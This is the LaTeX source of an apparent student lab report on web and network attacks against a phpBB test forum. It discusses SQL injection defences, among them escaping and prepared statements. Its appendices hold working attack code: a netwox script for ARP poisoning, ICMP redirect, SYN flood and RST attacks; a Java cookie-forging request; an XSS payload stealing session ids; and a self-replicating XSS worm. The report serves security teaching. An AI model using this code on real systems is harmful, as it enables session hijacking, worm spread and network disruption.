
\includegraphics[width=.95\textwidth]{gfx/sql/debug.png}

\subsection{Countermeasures}

\subsubsection{Magic quotes}
To test our first counter measure, we turn back on the ``magic quotes gpc'' PHP option. Thanks to this option PHP escapes with backslashes special characters such as single quote for GPC (Get/Post/Cookie operations~\cite{phpman}) operations.

Now, our first attack fails, because we cannot inject single quote any more in order to change the SQL query. This results in us not being able to log in.\\
Also, we printed the resulting query to the Apache error log file and we could see that indeed the single quotes were escaped and didn't break the query the way we intended.\\
\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sql1
}
\begin{lstlisting}
 SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice\\' or \\'1\\'=\\'1'
\end{lstlisting}
While with magic quotes turned off, the query can be modified:
\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sql2
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice' or '1'='1'
\end{lstlisting}
However, escaping quotes with a backslash may not be a good countermeasure, which we will explain in the next part.

\subsubsection{Using \texttt{addslashes()}}

For this task we show an alternative method of escaping strings. GPC cookies are turned off by default in PHP 5.3 and were removed completely in PHP 5.4. Mainly because of the overhead of checking every string and that not every request contains a query or script string. Now it is required to ``sanitize'' strings by a developer in code explicitly. One way of doing it is to call \texttt{addslashes} in PHP which does exactly the same to the strings as magic cookies---escapes quotes, double quotes, backslashes and null characters.\\

We can enable it in our phpBB forum code and we indeed see in the logs that our attacks fail.\\
The query string for logging-in looks exactly the same as in case of GPC cookies, what makes injecting SQL not effective:

\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice\\' or \\'1\\'=\\'1'
\end{lstlisting}

However, using  \texttt{addslashes()} or GPC cookies is not a good way of preventing the injection of malicious code. For example, it can be shown that if a special binary string is prepared and send using the query \texttt{addslashes()} might not handle correctly Unicode strings. An example of such an attack was demonstrated by~\cite{shiflett06}.

\subsubsection{Using \texttt{mysql\_real\_escape\_string}}
Another way of forming secure queries with user inputs is to escape variables that we get from outside world on the server-side by calling \texttt{mysql\_real\_escape\_string} method from MySQL API in PHP.\\

This code below demonstrates how to prevent the attack on \texttt{SELECT} statement in login.php file:

\lstset{
	captionpos=b,
	frame=single,
	language=PHP,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}
$sql = "SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try
FROM " . USERS_TABLE . "
WHERE username = '" . mysql_real_escape_string($username) . "'";
\end{lstlisting}
Again, we can see in the log file that query is escaped correctly:
\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}
[Mon Dec 15 13:17:05 2014] [error] [client 127.0.0.1] SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice\\' or \\'1\\'=\\'1', referer: http://www.sqllabmysqlphpbb.com/login.php
\end{lstlisting}
Moreover, the statement handles the case of vulnerable binary strings~\cite{shiflett06}. This standard PHP MySQL API was however deprecated in PHP 5 and it is now required to use either MySQLi or PDO APIs. The default MySQL driver was not deprecated for security reasons, but simply because new PHP5 did not want to be shipped with a library not used by everyone~\cite{phpfaq}.

\subsubsection{Using prepared statement}
Another way of making strings sanitized is to use so called prepared statements. The syntax of prepared statements looks more like the one of \texttt{printf} method known to \texttt{C} developers. Using this style of forming dynamic SQL queries makes it easier not to forget about escaping parameters because they are automatically escaped.\\

New PHP MySQL API, called MySQL Improved or simply MySQLi (\cite{mysqli}) offers API for prepared statement. The code below shows a proof-of-concept of how to change login.php function to use prepared statements. We didn't however change entire PhpBB to use MySQLi, so our change didn't work.\\

Again we show how to prevent the SQL injection in login.php:
\lstset{
	captionpos=b,
	frame=single,
	language=PHP,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}	

// Assuming $db is object of MySQLi connection
$stmt = mysqli_stmt_init  ( $db);
$row = null;

// Prevent injection
if($prepared =  $stmt->prepare("SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try FROM " . USERS_TABLE . "WHERE username = ?"))
{
	$stmt->bind_param("s", $username);
	$stmt->execute();
	$row = $stmt->fetch();
	$stmt->close();
} else {
	message_die(GENERAL_ERROR, 'Error in obtaining userdata', '', __LINE__, __FILE__, "");
}
\end{lstlisting}

Because \texttt{\$db} was not of type MySQLi, our code caused the following error:\\

\includegraphics[width=.95\textwidth]{gfx/sql/mysqli.png}

\section{Conclusions}
Lorem ipsum

\vfill
\bibliographystyle{plain}
\bibliography{ref}

\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'


;;
4)
echo 'sudo' $ATT $RST_TOOL '-d' $INT '-i' $VICTIM_IP
sudo $ATT $RST_TOOL -d $INT -i $VICTIM_IP
;;
3)
echo 'sudo' $ATT $SYN_TOOL '-i' $VICTIM_IP '-p' $PORT
echo 'SYN Flood on machine at address' $VICTIM_IP 'on port' $PORT
sudo $ATT $SYN_TOOL -i $VICTIM_IP -p $PORT
;;

2)
echo 'IMCP redirection attack:'
echo 'sudo' $ATT $ICMP_TOOL '-d' $INT '-g' $ATTACKER_IP '-c' 0 '-i' $VICTIM_IP
sudo $ATT $ICMP_TOOL -d $INT -g $ATTACKER_IP -c 5 -i $VICTIM_IP 
;;
1)
sudo $ATT $ARP_TOOL -d $INT -b $VICTIM_MAC -g $GATEWAY -h $VICTIM_MAC -i $ATTACKER_IP
;;
*)
echo "Unknown option"
esac

\end{lstlisting}

\section{Java application for forging message with cookie.\label{app:java}}

\lstset{
  captionpos=b,
  frame=single,
  language=Java,
  breaklines=true,
  caption="Java application for forging message with cookie.",
  label=parta:script
}
\begin{lstlisting}
import java.io.*;
import java.net.*;
public class HTTPSimpleForge {

  public static void main(String[] args) throws IOException {

    try {
      int responseCode;
      InputStream responseIn=null;

      // URL to be forged.
      URL url = new URL ("http://www.xsslabphpbb.com/posting.php");
      
      // URLConnection instance is created to further parameterize a
      // resource request past what the state members of URL instance
      // can represent.
      URLConnection urlConn = url.openConnection();
      if (urlConn instanceof HttpURLConnection) {
        urlConn.setConnectTimeout(60000);
        urlConn.setReadTimeout(90000);
      }

      // addRequestProperty method is used to add HTTP Header Information.
      // Here we add User-Agent HTTP header to the forged HTTP packet.
      urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
      urlConn.addRequestProperty("Content-Type", "application/x-www-form-urlencoded");
      
      String stolenCookie = "phpbb2mysql_t%3Da%253A5%253A%257Bi%253A1%253Bi%253A1418225227%253Bi%253A2%253Bi%253A1418223204%253Bi%253A5%253Bi%253A1418223252%253Bi%253A6%253Bi%253A1418223310%253Bi%253A7%253Bi%253A1418225234%253B%257D%3B%20phpbb2mysql_data%3Da%253A2%253A%257Bs%253A11%253A%2522autologinid%2522%253Bs%253A0%253A%2522%2522%253Bs%253A6%253A%2522userid%2522%253Bs%253A1%253A%25224%2522%253B%257D%3B%20phpbb2mysql_sid%3D642b0037b1b4f81a4141e8fb505e50f6";


      String decodedCookie = URLDecoder.decode(stolenCookie); 
        
      System.out.println(decodedCookie);

      urlConn.addRequestProperty("Cookie", decodedCookie);
      //HTTP Post Data which includes the information to be sent to the server.
      String data="subject=AYBABTU&message=AllYourBaseAreBelongToUs&mode=reply&sid=642b0037b1b4f81a4141e8fb505e50f6&t=1&post=Submit";

      // DoOutput flag of URL Connection should be set to true
      // to send HTTP POST message.
      urlConn.setDoOutput(true);

      // OutputStreamWriter is used to write the HTTP POST data
      // to the url connection.
      OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
      wr.write(data);
      wr.flush();

      // HttpURLConnection a subclass of URLConnection is returned by
      // url.openConnection() since the url is an http request.
      if (urlConn instanceof HttpURLConnection) {

             HttpURLConnection httpConn = (HttpURLConnection) urlConn;
             // Contacts the web server and gets the status code from
             // HTTP Response message.
             responseCode = httpConn.getResponseCode();
             System.out.println("Response Code = " + responseCode);
             // HTTP status code HTTP_OK means the response was
             // received sucessfully.
             if (responseCode == HttpURLConnection.HTTP_OK) {
                     // Get the input stream from url connection object.
                     responseIn = urlConn.getInputStream();
                     // Create an instance for BufferedReader
                     // to read the response line by line.
                     BufferedReader buf_inp = new BufferedReader(
                                     new InputStreamReader(responseIn));
                     String inputLine;
                     while((inputLine = buf_inp.readLine())!=null) {
                             System.out.println(inputLine);
                     }
             }
      }
    } catch (MalformedURLException e) {
               e.printStackTrace();
    }
  }
}

\end{lstlisting}


\section{JavaScript for forging message.\label{app:javasc1}}

\lstset{
  captionpos=b,
  frame=single,
  language=JavaScript,
  breaklines=true,
  caption="JavaScript for forging message.",
  label=parta:script
}
\begin{lstlisting}
<script>
var Ajax=null;
// Construct the header information for the Http request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Steal cookie
var valueSearched = "phpbb2mysql_sid=";

// Find where mysql sid is 
var indexOfSid = document.cookie.indexOf(valueSearched);

// Move the string behind mysql_sid=
indexOfSid += valueSearched.length;

// Check if there is a semicolon at the end, we only want one parameter from cookie
var semicolonIndex = document.cookie.indexOf(";", indexOfSid);

var stolenCookie = "";

if(semicolonIndex == -1) {
  stolenCookie = document.cookie.slice(indexOfSid);
} else {
  stolenCookie = document.cookie.slice(indexOfSid, semicolonIndex);
}

// Construct the content. The format of the content can be learned
// from LiveHttpHeader. All we need to fill is subject, message, and sid.
var content="subject=XSSWorm"; // You need to fill in the details.

// Add message body
content += "&message=Attack";

// Choose topic number
content += "&t=8";

// Add session id stolen from cookie
content += "&sid=" + stolenCookie; // e.g. 642b0037b1b4f81a4141e8fb505e50f6

// Specify posting mode
content += "&mode=reply";
content += "&post=Submit";
// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{lstlisting}

\section{Self-replicating JavaScript for forging message.\label{app:javasc2}}

\lstset{
  captionpos=b,
  frame=single,
  language=JavaScript,
  breaklines=true,
  caption="Self-replicating JavaScript for forging message.",
  label=parta:script
}
\begin{lstlisting}
<script id=worm>
var Ajax=null;
// Construct the header information for the Http request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Steal cookie
var valueSearched = "phpbb2mysql_sid=";

// Find where mysql sid is 
var indexOfSid = document.cookie.indexOf(valueSearched);

// Move the string behind mysql_sid=
indexOfSid = indexOfSid - (-valueSearched.length);

// Check if there is a semicolon at the end, we only want one parameter from cookie
var semicolonIndex = document.cookie.indexOf(";", indexOfSid);

var stolenCookie = "";

if(semicolonIndex == -1) {
  stolenCookie = document.cookie.slice(indexOfSid);
} else {
  stolenCookie = document.cookie.slice(indexOfSid, semicolonIndex);
}

// Construct the content. The format of the content can be learned
// from LiveHttpHeader. All we need to fill is subject, message, and sid.
var content="subject=XSSWorm"; // You need to fill in the details.

// Add message body
content = content.concat("&message=Attack");

// Script tags have to be encoded, otherwise script won't be valid
// When passed in request string
var strCode = document.getElementById("worm");
var beg = "%3Cscript id=worm%3E";
var end = "%3C/script%3E";
var urlEncSample = beg.concat( escape(strCode.innerHTML), end);

// Set the script to be content of the request
content = content.concat(urlEncSample);

// Choose topic number
content = content.concat("&t=8");

// Add session id stolen from cookie
content = content.concat("&sid=", stolenCookie); // e.g. 642b0037b1b4f81a4141e8fb505e50f6

// Specify posting mode, here we want to reply
content = content.concat("&mode=reply");
content = content.concat("&post=Submit");
// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{lstlisting}


\end{appendices}

\end{document}
